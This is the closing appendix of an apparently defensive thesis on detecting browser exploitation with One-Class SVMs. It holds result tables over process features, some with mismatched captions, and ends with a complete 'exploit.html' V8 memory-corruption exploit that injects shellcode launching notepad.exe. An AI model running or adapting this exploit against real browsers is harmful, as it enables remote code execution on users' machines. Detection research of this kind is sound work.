		19 &  0.500 &         0 &        13 &               0 &             218 \\
		20 &  0.525 &         0 &        13 &               0 &             218 \\
		21 &  0.550 &         0 &        13 &               0 &             218 \\
		22 &  0.575 &         0 &        13 &               0 &             218 \\
		23 &  0.600 &         0 &        13 &               0 &             218 \\
		24 &  0.625 &         0 &        13 &               0 &             218 \\
		25 &  0.650 &         0 &        13 &               0 &             218 \\
		26 &  0.675 &         0 &        13 &               0 &             218 \\
		27 &  0.700 &         0 &        13 &               0 &             218 \\
		28 &  0.725 &         0 &        13 &               0 &             218 \\
		29 &  0.750 &         0 &        13 &               0 &             218 \\
		30 &  0.775 &         0 &        13 &               0 &             218 \\
		31 &  0.800 &         0 &        13 &               0 &             218 \\
		32 &  0.825 &         0 &        13 &               0 &             218 \\
		33 &  0.850 &         0 &        13 &               0 &             218 \\
		34 &  0.875 &         0 &        13 &               0 &             218 \\
		35 &  0.900 &         0 &        13 &               0 &             218 \\
		36 &  0.925 &         0 &        13 &               0 &             218 \\
		37 &  0.950 &         0 &        13 &               0 &             218 \\
		38 &  0.975 &         0 &        13 &               0 &             218 \\
		39 &  1.000 &         0 &        13 &               0 &             218 \\
		\bottomrule
	\end{tabular}
\end{table}


\begin{table}
	\centering
	\caption{Results of anomaly detection on DirtyCat encoded paths without splitting.}
	\label{id:tab:ocsvmOnDirtyCatFullPaths}
	\begin{tabular}{lrrrrr}
		\toprule
		{} &     nu &  Positive &  Negative &  False positive &  False negative \\
		\midrule
		0  &  0.025 &        11 &         3 &              10 &             207 \\
		1  &  0.050 &       203 &         0 &              13 &              15 \\
		2  &  0.075 &       205 &         0 &              13 &              13 \\
		3  &  0.100 &       206 &         0 &              13 &              12 \\
		4  &  0.125 &       198 &         0 &              13 &              20 \\
		5  &  0.150 &       198 &         0 &              13 &              20 \\
		6  &  0.175 &       198 &         0 &              13 &              20 \\
		7  &  0.200 &       198 &         5 &               8 &              20 \\
		8  &  0.225 &       198 &         7 &               6 &              20 \\
		9  &  0.250 &       198 &        10 &               3 &              20 \\
		10 &  0.275 &       198 &        10 &               3 &              20 \\
		11 &  0.300 &       198 &        10 &               3 &              20 \\
		12 &  0.325 &       198 &        10 &               3 &              20 \\
		13 &  0.350 &       198 &        10 &               3 &              20 \\
		14 &  0.375 &       198 &        10 &               3 &              20 \\
		15 &  0.400 &       198 &        10 &               3 &              20 \\
		16 &  0.425 &       198 &        10 &               3 &              20 \\
		17 &  0.450 &       198 &        10 &               3 &              20 \\
		18 &  0.475 &       198 &        10 &               3 &              20 \\
		19 &  0.500 &       198 &        10 &               3 &              20 \\
		20 &  0.525 &       198 &        10 &               3 &              20 \\
		21 &  0.550 &       198 &        10 &               3 &              20 \\
		22 &  0.575 &       198 &        10 &               3 &              20 \\
		23 &  0.600 &       198 &        10 &               3 &              20 \\
		24 &  0.625 &       198 &        10 &               3 &              20 \\
		25 &  0.650 &       198 &        10 &               3 &              20 \\
		26 &  0.675 &       198 &        10 &               3 &              20 \\
		27 &  0.700 &       198 &        10 &               3 &              20 \\
		28 &  0.725 &       198 &        10 &               3 &              20 \\
		29 &  0.750 &       198 &        10 &               3 &              20 \\
		30 &  0.775 &       198 &        10 &               3 &              20 \\
		31 &  0.800 &       198 &        10 &               3 &              20 \\
		32 &  0.825 &       198 &        10 &               3 &              20 \\
		33 &  0.850 &       198 &        10 &               3 &              20 \\
		34 &  0.875 &       198 &        10 &               3 &              20 \\
		35 &  0.900 &       198 &        10 &               3 &              20 \\
		36 &  0.925 &       198 &        10 &               3 &              20 \\
		37 &  0.950 &       198 &        10 &               3 &              20 \\
		38 &  0.975 &       198 &        10 &               3 &              20 \\
		39 &  1.000 &         0 &        13 &               0 &             218 \\
		\bottomrule
	\end{tabular}				
\end{table}

\begin{table}
	\centering
	\caption{Results of anomaly detection on paths encoded by DirtyCat trained only on '/msedge'.}
	\label{id:tab:ocsvmOnDirtyCatMsEdge}
	\begin{tabular}{lrrrrr}
		\toprule
		{} &     nu &  Positive &  Negative &  False positive &  False negative \\
		\midrule
		0  &  0.025 &       214 &         0 &              13 &               4 \\
		1  &  0.050 &       184 &         0 &              13 &              34 \\
		2  &  0.075 &       207 &         0 &              13 &              11 \\
		3  &  0.100 &       205 &         0 &              13 &              13 \\
		4  &  0.125 &       202 &         0 &              13 &              16 \\
		5  &  0.150 &       200 &         0 &              13 &              18 \\
		6  &  0.175 &       198 &         0 &              13 &              20 \\
		7  &  0.200 &       198 &         1 &              12 &              20 \\
		8  &  0.225 &       198 &         4 &               9 &              20 \\
		9  &  0.250 &       198 &         5 &               8 &              20 \\
		10 &  0.275 &       198 &         6 &               7 &              20 \\
		11 &  0.300 &       198 &        10 &               3 &              20 \\
		12 &  0.325 &       198 &        10 &               3 &              20 \\
		13 &  0.350 &       198 &        10 &               3 &              20 \\
		14 &  0.375 &       198 &        10 &               3 &              20 \\
		15 &  0.400 &       198 &        10 &               3 &              20 \\
		16 &  0.425 &       198 &        10 &               3 &              20 \\
		17 &  0.450 &       198 &        10 &               3 &              20 \\
		18 &  0.475 &       198 &        10 &               3 &              20 \\
		19 &  0.500 &       198 &        10 &               3 &              20 \\
		20 &  0.525 &       198 &        10 &               3 &              20 \\
		21 &  0.550 &       198 &        10 &               3 &              20 \\
		22 &  0.575 &       198 &        10 &               3 &              20 \\
		23 &  0.600 &       198 &        10 &               3 &              20 \\
		24 &  0.625 &       198 &        10 &               3 &              20 \\
		25 &  0.650 &       198 &        10 &               3 &              20 \\
		26 &  0.675 &       198 &        10 &               3 &              20 \\
		27 &  0.700 &       198 &        10 &               3 &              20 \\
		28 &  0.725 &       198 &        10 &               3 &              20 \\
		29 &  0.750 &       198 &        10 &               3 &              20 \\
		30 &  0.775 &       198 &        10 &               3 &              20 \\
		31 &  0.800 &       198 &        10 &               3 &              20 \\
		32 &  0.825 &       198 &        10 &               3 &              20 \\
		33 &  0.850 &       198 &        10 &               3 &              20 \\
		34 &  0.875 &       198 &        10 &               3 &              20 \\
		35 &  0.900 &       198 &        10 &               3 &              20 \\
		36 &  0.925 &       198 &        10 &               3 &              20 \\
		37 &  0.950 &       198 &        10 &               3 &              20 \\
		38 &  0.975 &       198 &        10 &               3 &              20 \\
		39 &  1.000 &         0 &        13 &               0 &             218 \\
		\bottomrule
	\end{tabular}						
\end{table}

%%%%%%%%%%%%%%%%%%%%%%%Avg Proces utilisation

\begin{table}
	\centering
	\caption{OCSVM classification on choosen features combined.}
	\label{id:tab:OCSVMonProc}
	\begin{tabular}{lrrrrr}
		\toprule
		{} &     nu &  Positive &  Negative &  False positive &  False negative \\
		\midrule
		0  &  0.025 &       190 &         0 &              10 &              31 \\
		1  &  0.050 &       188 &         1 &               9 &              33 \\
		2  &  0.075 &       190 &         1 &               9 &              31 \\
		3  &  0.100 &       194 &         1 &               9 &              27 \\
		4  &  0.125 &       194 &         2 &               8 &              27 \\
		5  &  0.150 &       192 &         3 &               7 &              29 \\
		6  &  0.175 &       184 &         3 &               7 &              37 \\
		7  &  0.200 &       181 &         4 &               6 &              40 \\
		8  &  0.225 &       181 &         4 &               6 &              40 \\
		9  &  0.250 &       179 &         5 &               5 &              42 \\
		10 &  0.275 &       169 &         5 &               5 &              52 \\
		11 &  0.300 &       160 &         5 &               5 &              61 \\
		12 &  0.325 &       157 &         5 &               5 &              64 \\
		13 &  0.350 &       147 &         5 &               5 &              74 \\
		14 &  0.375 &       138 &         6 &               4 &              83 \\
		15 &  0.400 &       125 &         6 &               4 &              96 \\
		16 &  0.425 &       125 &         6 &               4 &              96 \\
		17 &  0.450 &       118 &         6 &               4 &             103 \\
		18 &  0.475 &       114 &         7 &               3 &             107 \\
		19 &  0.500 &       108 &         7 &               3 &             113 \\
		20 &  0.525 &       105 &         7 &               3 &             116 \\
		21 &  0.550 &        99 &         7 &               3 &             122 \\
		22 &  0.575 &        93 &         7 &               3 &             128 \\
		23 &  0.600 &        89 &         7 &               3 &             132 \\
		24 &  0.625 &        88 &         7 &               3 &             133 \\
		25 &  0.650 &        82 &         8 &               2 &             139 \\
		26 &  0.675 &        72 &         8 &               2 &             149 \\
		27 &  0.700 &        69 &         8 &               2 &             152 \\
		28 &  0.725 &        63 &         8 &               2 &             158 \\
		29 &  0.750 &        56 &         9 &               1 &             165 \\
		30 &  0.775 &        47 &        10 &               0 &             174 \\
		31 &  0.800 &        41 &        10 &               0 &             180 \\
		32 &  0.825 &        40 &        10 &               0 &             181 \\
		33 &  0.850 &        37 &        10 &               0 &             184 \\
		34 &  0.875 &        30 &        10 &               0 &             191 \\
		35 &  0.900 &        22 &        10 &               0 &             199 \\
		36 &  0.925 &        18 &        10 &               0 &             203 \\
		37 &  0.950 &        14 &        10 &               0 &             207 \\
		38 &  0.975 &         8 &        10 &               0 &             213 \\
		39 &  1.000 &         0 &        10 &               0 &             221 \\
		\bottomrule
	\end{tabular}		
\end{table} 


%%%%%%%%%%%%%%%%%%%%%%Process lifespan

\begin{table}
	\centering
	\caption{Results of One Class SVN on the process lifespans}
	\label{id:tab:OCSVNlifespans}
	\begin{tabular}{lrrrrr}
		\toprule
		{} &     nu &  Positive &  Negative &  False positive &  False negative \\
		\midrule
		0  &  0.025 &       209 &         1 &              12 &               9 \\
		1  &  0.050 &       208 &         4 &               9 &              10 \\
		2  &  0.075 &       203 &         6 &               7 &              15 \\
		3  &  0.100 &       190 &         6 &               7 &              28 \\
		4  &  0.125 &       174 &         7 &               6 &              44 \\
		5  &  0.150 &       186 &         6 &               7 &              32 \\
		6  &  0.175 &       171 &         7 &               6 &              47 \\
		7  &  0.200 &       172 &         7 &               6 &              46 \\
		8  &  0.225 &       172 &         7 &               6 &              46 \\
		9  &  0.250 &       166 &         7 &               6 &              52 \\
		10 &  0.275 &       156 &         7 &               6 &              62 \\
		11 &  0.300 &       147 &         7 &               6 &              71 \\
		12 &  0.325 &       145 &         7 &               6 &              73 \\
		13 &  0.350 &       140 &         7 &               6 &              78 \\
		14 &  0.375 &       139 &         7 &               6 &              79 \\
		15 &  0.400 &       130 &         7 &               6 &              88 \\
		16 &  0.425 &       126 &         7 &               6 &              92 \\
		17 &  0.450 &       124 &         7 &               6 &              94 \\
		18 &  0.475 &       117 &         7 &               6 &             101 \\
		19 &  0.500 &       111 &         7 &               6 &             107 \\
		20 &  0.525 &       105 &         7 &               6 &             113 \\
		21 &  0.550 &        98 &         7 &               6 &             120 \\
		22 &  0.575 &        92 &         9 &               4 &             126 \\
		23 &  0.600 &        88 &         9 &               4 &             130 \\
		24 &  0.625 &        74 &         9 &               4 &             144 \\
		25 &  0.650 &        71 &         9 &               4 &             147 \\
		26 &  0.675 &        70 &        11 &               2 &             148 \\
		27 &  0.700 &        67 &        11 &               2 &             151 \\
		28 &  0.725 &        60 &        11 &               2 &             158 \\
		29 &  0.750 &        53 &        12 &               1 &             165 \\
		30 &  0.775 &        49 &        12 &               1 &             169 \\
		31 &  0.800 &        47 &        12 &               1 &             171 \\
		32 &  0.825 &        43 &        12 &               1 &             175 \\
		33 &  0.850 &        38 &        12 &               1 &             180 \\
		34 &  0.875 &        28 &        12 &               1 &             190 \\
		35 &  0.900 &        21 &        12 &               1 &             197 \\
		36 &  0.925 &        14 &        12 &               1 &             204 \\
		37 &  0.950 &        10 &        12 &               1 &             208 \\
		38 &  0.975 &         3 &        12 &               1 &             215 \\
		39 &  1.000 &         0 &        13 &               0 &             218 \\
		\bottomrule
	\end{tabular}
\end{table}

\begin{table}
	\centering
	\caption{Results of One Class SVN on the process CPUMsec values.}
	\label{id:tab:OCSVMCPUMsec}
	\begin{tabular}{lrrrrr}
		\toprule
		{} &     nu &  Positive &  Negative &  False positive &  False negative \\
		\midrule
		0  &  0.025 &       212 &         2 &              11 &               6 \\
		1  &  0.050 &       202 &         3 &              10 &              16 \\
		2  &  0.075 &       204 &         5 &               8 &              14 \\
		3  &  0.100 &       197 &         6 &               7 &              21 \\
		4  &  0.125 &       188 &         6 &               7 &              30 \\
		5  &  0.150 &       181 &         6 &               7 &              37 \\
		6  &  0.175 &       173 &         6 &               7 &              45 \\
		7  &  0.200 &       171 &         6 &               7 &              47 \\
		8  &  0.225 &       168 &         6 &               7 &              50 \\
		9  &  0.250 &       154 &         6 &               7 &              64 \\
		10 &  0.275 &       151 &         4 &               9 &              67 \\
		11 &  0.300 &       142 &         6 &               7 &              76 \\
		12 &  0.325 &       140 &         6 &               7 &              78 \\
		13 &  0.350 &       136 &         6 &               7 &              82 \\
		14 &  0.375 &       134 &         6 &               7 &              84 \\
		15 &  0.400 &       131 &         6 &               7 &              87 \\
		16 &  0.425 &       127 &         6 &               7 &              91 \\
		17 &  0.450 &       113 &         7 &               6 &             105 \\
		18 &  0.475 &       107 &         7 &               6 &             111 \\
		19 &  0.500 &       100 &         7 &               6 &             118 \\
		20 &  0.525 &       103 &         7 &               6 &             115 \\
		21 &  0.550 &        96 &         7 &               6 &             122 \\
		22 &  0.575 &        93 &         8 &               5 &             125 \\
		23 &  0.600 &        93 &         8 &               5 &             125 \\
		24 &  0.625 &        83 &         8 &               5 &             135 \\
		25 &  0.650 &        77 &         8 &               5 &             141 \\
		26 &  0.675 &        64 &         8 &               5 &             154 \\
		27 &  0.700 &        60 &         8 &               5 &             158 \\
		28 &  0.725 &        58 &         8 &               5 &             160 \\
		29 &  0.750 &        54 &         9 &               4 &             164 \\
		30 &  0.775 &        52 &        13 &               0 &             166 \\
		31 &  0.800 &        45 &        13 &               0 &             173 \\
		32 &  0.825 &        36 &        13 &               0 &             182 \\
		33 &  0.850 &        33 &        13 &               0 &             185 \\
		34 &  0.875 &        33 &        13 &               0 &             185 \\
		35 &  0.900 &        28 &        13 &               0 &             190 \\
		36 &  0.925 &        21 &        13 &               0 &             197 \\
		37 &  0.950 &        18 &        13 &               0 &             200 \\
		38 &  0.975 &        13 &        13 &               0 &             205 \\
		39 &  1.000 &         0 &        13 &               0 &             218 \\
		\bottomrule
	\end{tabular}		
\end{table}

%%%%%%%%%%%%%%%%%%%%%%Exit Code

\begin{table}
	\centering
	\caption{Results of One Class SVN on the process lifespans}
	\label{id:tab:OCSVMexitCode}
	\begin{tabular}{lrrrrr}
		\toprule
		{} &     nu &  Positive &  Negative &  False positive &  False negative \\
		\midrule
		0  &  0.025 &       218 &         3 &              10 &               0 \\
		1  &  0.050 &       218 &         4 &               9 &               0 \\
		2  &  0.075 &       218 &         4 &               9 &               0 \\
		3  &  0.100 &       218 &         4 &               9 &               0 \\
		4  &  0.125 &       218 &         4 &               9 &               0 \\
		5  &  0.150 &       218 &         4 &               9 &               0 \\
		6  &  0.175 &       218 &         4 &               9 &               0 \\
		7  &  0.200 &       218 &         4 &               9 &               0 \\
		8  &  0.225 &       218 &         4 &               9 &               0 \\
		9  &  0.250 &       218 &         4 &               9 &               0 \\
		10 &  0.275 &       218 &         4 &               9 &               0 \\
		11 &  0.300 &       218 &         4 &               9 &               0 \\
		12 &  0.325 &       218 &         4 &               9 &               0 \\
		13 &  0.350 &       218 &         4 &               9 &               0 \\
		14 &  0.375 &       218 &         4 &               9 &               0 \\
		15 &  0.400 &       218 &         4 &               9 &               0 \\
		16 &  0.425 &       218 &         4 &               9 &               0 \\
		17 &  0.450 &       218 &         4 &               9 &               0 \\
		18 &  0.475 &       218 &         4 &               9 &               0 \\
		19 &  0.500 &       218 &         4 &               9 &               0 \\
		20 &  0.525 &       218 &         4 &               9 &               0 \\
		21 &  0.550 &       218 &         4 &               9 &               0 \\
		22 &  0.575 &       218 &         4 &               9 &               0 \\
		23 &  0.600 &       218 &         4 &               9 &               0 \\
		24 &  0.625 &       218 &         4 &               9 &               0 \\
		25 &  0.650 &       218 &         4 &               9 &               0 \\
		26 &  0.675 &       218 &         4 &               9 &               0 \\
		27 &  0.700 &       218 &         4 &               9 &               0 \\
		28 &  0.725 &       218 &         4 &               9 &               0 \\
		29 &  0.750 &       218 &         4 &               9 &               0 \\
		30 &  0.775 &       218 &         4 &               9 &               0 \\
		31 &  0.800 &       218 &         4 &               9 &               0 \\
		32 &  0.825 &       218 &         4 &               9 &               0 \\
		33 &  0.850 &       218 &         4 &               9 &               0 \\
		34 &  0.875 &       218 &         4 &               9 &               0 \\
		35 &  0.900 &       218 &         4 &               9 &               0 \\
		36 &  0.925 &       218 &         4 &               9 &               0 \\
		37 &  0.950 &       218 &         4 &               9 &               0 \\
		38 &  0.975 &       218 &         4 &               9 &               0 \\
		39 &  1.000 &         0 &        13 &               0 &             218 \\
		\bottomrule
	\end{tabular}		
\end{table}

%%%%%%%%%%%%%%%%%%%%%%Final

\begin{table}
	\centering
	\caption{OCSVM classification on Average Process Utilistaion}
	\label{id:tab:OCSVMonCombined}
	\begin{tabular}{lrrrrr}
		\toprule
		{} &     nu &  Positive &  Negative &  False positive &  False negative \\
		\midrule
		0  &  0.025 &       214 &         4 &               9 &               4 \\
		1  &  0.050 &       211 &         6 &               7 &               7 \\
		2  &  0.075 &       203 &         6 &               7 &              15 \\
		3  &  0.100 &       200 &         6 &               7 &              18 \\
		4  &  0.125 &       194 &         7 &               6 &              24 \\
		5  &  0.150 &       186 &         9 &               4 &              32 \\
		6  &  0.175 &       184 &        10 &               3 &              34 \\
		7  &  0.200 &       182 &        12 &               1 &              36 \\
		8  &  0.225 &       179 &        13 &               0 &              39 \\
		9  &  0.250 &       168 &        13 &               0 &              50 \\
		10 &  0.275 &       163 &        13 &               0 &              55 \\
		11 &  0.300 &       160 &        13 &               0 &              58 \\
		12 &  0.325 &       156 &        13 &               0 &              62 \\
		13 &  0.350 &       150 &        13 &               0 &              68 \\
		14 &  0.375 &       139 &        13 &               0 &              79 \\
		15 &  0.400 &       138 &        13 &               0 &              80 \\
		16 &  0.425 &       129 &        13 &               0 &              89 \\
		17 &  0.450 &       125 &        13 &               0 &              93 \\
		18 &  0.475 &       123 &        13 &               0 &              95 \\
		19 &  0.500 &       115 &        13 &               0 &             103 \\
		20 &  0.525 &       109 &        13 &               0 &             109 \\
		21 &  0.550 &        98 &        13 &               0 &             120 \\
		22 &  0.575 &        94 &        13 &               0 &             124 \\
		23 &  0.600 &        86 &        13 &               0 &             132 \\
		24 &  0.625 &        84 &        13 &               0 &             134 \\
		25 &  0.650 &        75 &        13 &               0 &             143 \\
		26 &  0.675 &        69 &        13 &               0 &             149 \\
		27 &  0.700 &        66 &        13 &               0 &             152 \\
		28 &  0.725 &        64 &        13 &               0 &             154 \\
		29 &  0.750 &        57 &        13 &               0 &             161 \\
		30 &  0.775 &        49 &        13 &               0 &             169 \\
		31 &  0.800 &        44 &        13 &               0 &             174 \\
		32 &  0.825 &        38 &        13 &               0 &             180 \\
		33 &  0.850 &        35 &        13 &               0 &             183 \\
		34 &  0.875 &        30 &        13 &               0 &             188 \\
		35 &  0.900 &        25 &        13 &               0 &             193 \\
		36 &  0.925 &        16 &        13 &               0 &             202 \\
		37 &  0.950 &        13 &        13 &               0 &             205 \\
		38 &  0.975 &         9 &        13 &               0 &             209 \\
		39 &  1.000 &         0 &        13 &               0 &             218 \\
		\bottomrule
	\end{tabular}
\end{table} 

Example of a \lstinline|"exploit.html"| file:

\begin{lstlisting}

<script>
/*
BSD 2-Clause License
Copyright (c) 2021, rajvardhan agarwal
All rights reserved.
Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions 
are met:
1. Redistributions of source code must retain the above copyright 
   notice, this list of conditions and the following disclaimer.
2. Redistributions in binary form must reproduce the above copyright 
   notice, this list of conditions and the following disclaimer 
   in the documentation and/or other materials provided with the 
   distribution.
THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS 
"AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT 
LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS 
FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE 
COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, 
INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, 
BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; 
LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT 
LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN 
ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE 
POSSIBILITY OF SUCH DAMAGE.
*/
    function gc() {
        for (var i = 0; i < 0x80000; ++i) {
            var a = new ArrayBuffer();
        }
    }
    let shellcode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 
	0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
	0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 
	0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 
	0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 
	0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x3C, 0x61, 0x7C, 
	0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 
	0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 
	0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 
	0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 
	0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44, 0x8B, 
	0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 
	0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 
	0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 
	0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1, 0x4C, 
	0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 
	0x58, 0x44, 0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 
	0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
    0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 
	0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 
	0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 
	0x52, 0xFF, 0xE0, 0x58, 0x41, 0x59, 0x5A, 0x48, 0x8B, 
	0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 
	0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 
	0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 
	0x8B, 0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 
	0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF, 0xD5, 
	0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 
	0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 
	0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x6E, 
	0x6F, 0x74, 0x65, 0x70, 0x61, 0x64, 0x2E, 0x65, 0x78, 
	0x65, 0x00];
    var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 
	0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 
	130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 
	0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 
	6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 
	0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 
	97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 
	132, 128, 128, 128, 0, 0, 65, 42, 11]);
    var wasmModule = new WebAssembly.Module(wasmCode);
    var wasmInstance = new WebAssembly.Instance(wasmModule);
    var main = wasmInstance.exports.main;
    var bf = new ArrayBuffer(8);
    var bfView = new DataView(bf);
    function fLow(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(0, true));
    }
    function fHi(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(4, true))
    }
    function i2f(low, hi) {
        bfView.setUint32(0, low, true);
        bfView.setUint32(4, hi, true);
        return bfView.getFloat64(0, true);
    }
    function f2big(f) {
        bfView.setFloat64(0, f, true);
        return bfView.getBigUint64(0, true);
    }
    function big2f(b) {
        bfView.setBigUint64(0, b, true);
        return bfView.getFloat64(0, true);
    }
    class LeakArrayBuffer extends ArrayBuffer {
        constructor(size) {
            super(size);
            this.slot = 0xb33f;
        }
    }
    function foo(a) {
        let x = -1;
        if (a) x = 0xFFFFFFFF;
        var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));
        arr.shift();
        let local_arr = Array(2);
        local_arr[0] = 5.1;//4014666666666666
        let buff = new LeakArrayBuffer(0x1000);//byteLength idx=8
        arr[0] = 0x1122;
        return [arr, local_arr, buff];
    }
    for (var i = 0; i < 0x10000; ++i)
        foo(false);
    gc(); gc();
    [corrput_arr, rwarr, corrupt_buff] = foo(true);
    corrput_arr[12] = 0x22444;
    delete corrput_arr;
    function setbackingStore(hi, low) {
        rwarr[4] = i2f(fLow(rwarr[4]), hi);
        rwarr[5] = i2f(low, fHi(rwarr[5]));
    }
    function leakObjLow(o) {
        corrupt_buff.slot = o;
        return (fLow(rwarr[9]) - 1);
    }
    let corrupt_view = new DataView(corrupt_buff);
    let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
    let idx0Addr = corrupt_buffer_ptr_low - 0x10;
    let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) 
		- ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) 
		+ 0x40000;
    let delta = baseAddr + 0x1c - idx0Addr;
    if ((delta % 8) == 0) {
        let baseIdx = delta / 8;
        this.base = fLow(rwarr[baseIdx]);
    } else {
        let baseIdx = ((delta - (delta % 8)) / 8);
        this.base = fHi(rwarr[baseIdx]);
    }
    let wasmInsAddr = leakObjLow(wasmInstance);
    setbackingStore(wasmInsAddr, this.base);
    let code_entry = corrupt_view.getFloat64(13 * 8, true);
    setbackingStore(fLow(code_entry), fHi(code_entry));
    for (let i = 0; i < shellcode.length; i++) {
        corrupt_view.setUint8(i, shellcode[i]);
    }
    main();
</script>
\end{lstlisting}
 

\chapter*{Contents of attached CD}

The thesis is accompanied by a CD containing:
\begin{itemize}
\item thesis (\texttt{pdf} file),
\item source code of applications,
\item data sets used in experiments.
\end{itemize}

\listoffigures
\listoftables
	
\end{appendices}


\end{document}


%% Finis coronat opus.